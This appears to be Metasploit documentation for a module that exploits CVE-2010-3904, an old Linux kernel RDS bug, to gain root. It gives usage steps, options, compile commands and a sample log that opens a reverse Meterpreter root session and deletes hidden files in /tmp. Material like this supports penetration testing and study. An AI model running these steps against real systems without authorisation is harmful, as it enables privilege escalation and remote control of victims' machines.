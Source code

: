 ## Description

  This module exploits a vulnerability in the `rds_page_copy_user` function
  in `net/rds/page.c` (RDS) in Linux kernel versions 2.6.30 to 2.6.36-rc8
  to execute code as `root` (CVE-2010-3904).


## Vulnerable Application

  This module has been tested successfully on:

  * Fedora 13 (i686) with kernel version 2.6.33.3-85.fc13.i686.PAE
  * Ubuntu 10.04 (x86_64) with kernel version 2.6.32-21-generic


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. Do: ```use exploit/linux/local/rds_rds_page_copy_user_priv_esc```
  4. Do: ```set SESSION [SESSION]```
  5. Do: ```check```
  6. Do: ```run```
  7. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)

  **COMPILE**

  Options: `Auto` `True` `False` (default: `Auto`)

  Whether the exploit should be live compiled with `gcc` on the target system,
  or uploaded as a pre-compiled binary.

  `Auto` will first determine if `gcc` is installed to compile live on the system,
  and fall back to uploading a pre-compiled binary.


## Compiled Executables

The module makes use of two pre-compiled exploit executables (`rds.x86` and `rds.x64`),
to be use when `gcc` is not available on the target host for live compiling, or
`COMPILE` is set to `False`.

The executables were cross-compiled with [musl-cross](https://s3.amazonaws.com/muslcross/musl-cross-linux-6.tar.xz):

```bash
./x86_64-linux-musl-gcc -o rds.x64 -pie -static rds.c
./i486-linux-musl-gcc -o rds.x86 -pie -static rds.c
```


## Scenarios

  ```
  msf5 > use exploit/linux/local/rds_rds_page_copy_user_priv_esc
  msf5 exploit(linux/local/rds_rds_page_copy_user_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/rds_rds_page_copy_user_priv_esc) > set lhost 172.16.191.188
  lhost => 172.16.191.188
  msf5 exploit(linux/local/rds_rds_page_copy_user_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Writing '/tmp/.zEAOL.c' (7282 bytes) ...
  [*] Writing '/tmp/.kBTWC7E' (237 bytes) ...
  [*] Launching exploit...
  [*] Sending stage (853256 bytes) to 172.16.191.149
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.149:40103) at 2018-05-03 08:52:59 -0400
  [+] Deleted /tmp/.zEAOL.c
  [+] Deleted /tmp/.zEAOL
  [+] Deleted /tmp/.kBTWC7E

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.149
  OS           : Ubuntu 10.04 (Linux 2.6.32-21-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter > 
  ```

## Re-exploitation

The exploit C code utilizes a defined send (`5555`) and receive (`6666`) port, which are opened while the payload is active.
Attempt to re-exploit while a successful exploit payload is open will result in the error:

```
[*] Could not bind socket.
```

However, killing that payload will allow for the exploit to run successfully.
